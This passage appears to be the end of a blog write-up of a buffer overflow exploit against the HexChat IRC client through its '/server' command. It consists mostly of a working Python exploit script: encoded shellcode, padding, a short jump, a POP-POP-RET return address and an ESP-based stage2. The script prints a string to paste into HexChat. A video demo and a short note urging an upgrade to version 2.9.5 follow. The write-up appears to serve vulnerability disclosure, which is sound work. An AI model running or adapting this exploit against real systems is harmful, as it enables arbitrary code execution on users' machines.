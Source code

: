```
"\x71\x6b\x4f\x36\x51\x79\x50\x6b\x4c\x4e\x4c\x4c\x44\x39\x50"
"\x34\x34\x75\x57\x49\x51\x4a\x6f\x36\x6d\x67\x71\x4a\x67\x5a"
"\x4b\x5a\x54\x67\x4b\x71\x6c\x61\x34\x34\x68\x32\x55\x6d\x31"
"\x6e\x6b\x33\x6a\x47\x54\x76\x61\x38\x6b\x71\x76\x4c\x4b\x64"
"\x4c\x52\x6b\x4e\x6b\x71\x4a\x67\x6c\x67\x71\x4a\x4b\x4e\x6b"
"\x74\x44\x4c\x4b\x76\x61\x69\x78\x4e\x69\x62\x64\x66\x44\x47"
"\x6c\x63\x51\x5a\x63\x6e\x52\x33\x38\x61\x39\x69\x44\x6b\x39"
"\x59\x75\x6c\x49\x58\x42\x73\x58\x4e\x6e\x72\x6e\x56\x6e\x58"
"\x6c\x62\x72\x4d\x38\x4f\x6f\x6b\x4f\x69\x6f\x69\x6f\x4f\x79"
"\x61\x55\x75\x54\x6d\x6b\x31\x6e\x4e\x38\x79\x72\x70\x73\x6f"
"\x77\x45\x4c\x45\x74\x70\x52\x39\x78\x6c\x4e\x4b\x4f\x49\x6f"
"\x59\x6f\x6f\x79\x43\x75\x55\x58\x73\x58\x62\x4c\x70\x6c\x51"
"\x30\x77\x31\x53\x58\x67\x43\x54\x72\x66\x4e\x61\x74\x71\x78"
"\x52\x55\x44\x33\x62\x45\x61\x62\x6d\x58\x51\x4c\x75\x74\x57"
"\x7a\x4c\x49\x58\x66\x73\x66\x6b\x4f\x30\x55\x47\x74\x6b\x39"
"\x4f\x32\x72\x70\x4d\x6b\x39\x38\x6d\x72\x72\x6d\x4f\x4c\x4b"
"\x37\x35\x4c\x67\x54\x30\x52\x5a\x48\x75\x31\x39\x6f\x6b\x4f"
"\x39\x6f\x33\x58\x42\x4f\x34\x38\x53\x68\x31\x30\x72\x48\x35"
"\x31\x73\x57\x61\x75\x62\x62\x35\x38\x72\x6d\x72\x45\x54\x33"
"\x62\x53\x54\x71\x69\x4b\x6f\x78\x33\x6c\x75\x74\x54\x4a\x6f"
"\x79\x78\x63\x61\x78\x72\x78\x45\x70\x77\x50\x75\x70\x70\x68"
"\x72\x6d\x50\x53\x37\x36\x77\x51\x70\x68\x43\x42\x30\x6f\x42"
"\x4d\x71\x30\x35\x38\x52\x4f\x66\x4c\x31\x30\x61\x76\x61\x78"
"\x71\x58\x50\x65\x42\x4c\x32\x4c\x55\x61\x5a\x69\x6e\x68\x72"
"\x6c\x61\x34\x44\x50\x4f\x79\x4d\x31\x56\x51\x4b\x62\x33\x62"
"\x61\x43\x46\x31\x52\x72\x39\x6f\x58\x50\x46\x51\x49\x50\x42"
"\x70\x69\x6f\x36\x35\x34\x48\x41\x41"
)
junk2 = "A"*(13306-len(shellcode))
stage1 = "\x4c\x4c\x77\x21" # 21 byte jump (JA)
ret = "\x63\x64\x62\x68" # ASCII PPR
junk3 = "C"*29
stage2 = "\x61"*38 # POPAD x 38
stage2 += "\x54" # PUSH ESP
stage2 += "\xE9" # RETN # This byte is a bad char, but gets converted to RETN and \x88
junk4 = "D"*11586

print "Copy this text, and enter into HexChat's textbox: \"/server [string]\"" 
print junk1 + shellcode + junk2 + stage1 + ret + junk3 + stage2 + junk4
```

## Demo time!

Here is a video demo of the exploit working with a simple messagebox payload.
{{< youtube izmMjz_g-84 >}}

## Remediation

It's suggested that all users upgrade to 2.9.5 where this vulnerability has been fixed. HexChat is available here: http://hexchat.org/downloads.html
